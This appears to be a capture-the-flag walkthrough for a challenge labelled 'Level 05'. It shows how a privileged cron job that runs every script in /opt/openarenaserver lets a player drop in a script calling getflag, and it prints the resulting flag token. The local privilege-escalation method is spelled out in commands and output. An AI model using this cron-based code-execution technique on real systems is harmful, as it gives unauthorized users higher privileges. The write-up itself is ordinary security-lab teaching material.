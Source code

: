 ## Level 05

We are gretted by a notification that we received a new mail!

We look through the /var/mail folder and find a `level05` containing:

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

If we take a look at `/usr/sbin/openarenaserver`

We can find:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

It executes every script in `/opt/openarenaserver` and deletes it, we can create one and `getflag`:

```bash
echo "getflag > /tmp/done" > /opt/openarenaserver/test.sh
```

We can find the flag here:

```bash
cat /tmp/done
Check flag.Here is your token : viuaaale9huek52boumoomioc
```